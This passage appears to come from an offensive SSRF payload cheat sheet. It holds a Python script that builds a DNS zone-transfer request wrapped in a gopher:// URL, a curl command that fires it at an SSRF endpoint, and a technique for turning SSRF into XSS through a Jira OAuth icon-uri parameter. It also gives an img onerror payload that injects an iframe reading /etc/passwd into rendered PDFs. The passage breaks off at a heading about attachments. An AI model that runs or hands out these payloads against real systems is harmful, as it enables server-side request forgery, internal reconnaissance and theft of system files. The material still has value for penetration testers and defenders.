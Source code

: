 ```py
from urllib.parse import quote
domain,tld = "example.lab".split('.')
dns_request =  b"\x01\x03\x03\x07"    # BITMAP
dns_request += b"\x00\x01"            # QCOUNT
dns_request += b"\x00\x00"            # ANCOUNT
dns_request += b"\x00\x00"            # NSCOUNT
dns_request += b"\x00\x00"            # ARCOUNT
dns_request += len(domain).to_bytes() # LEN DOMAIN
dns_request += domain.encode()        # DOMAIN
dns_request += len(tld).to_bytes()    # LEN TLD
dns_request += tld.encode()           # TLD
dns_request += b"\x00"                # DNAME EOF
dns_request += b"\x00\xFC"            # QTYPE AXFR (252)
dns_request += b"\x00\x01"            # QCLASS IN (1)
dns_request = len(dns_request).to_bytes(2, byteorder="big") + dns_request
print(f'gopher://127.0.0.1:25/_{quote(dns_request)}')
```

Example of payload for `example.lab`: `gopher://127.0.0.1:25/_%00%1D%01%03%03%07%00%01%00%00%00%00%00%00%07example%03lab%00%00%FC%00%01`

```ps1
curl -s -i -X POST -d 'url=gopher://127.0.0.1:53/_%2500%251d%25a9%25c1%2500%2520%2500%2501%2500%2500%2500%2500%2500%2500%2507%2565%2578%2561%256d%2570%256c%2565%2503%256c%2561%2562%2500%2500%25fc%2500%2501' http://localhost:5000/ssrf --output - | xxd
```


## SSRF to XSS 

by [@D0rkerDevil & @alyssa.o.herrera](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)

```bash
http://brutelogic.com.br/poc.svg -> simple alert
https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri= -> simple ssrf

https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=http://brutelogic.com.br/poc.svg
```

## SSRF from XSS

### Using an iframe

The content of the file will be integrated inside the PDF as an image or text.

```html
<img src="echopwn" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
```

### Using an attachment
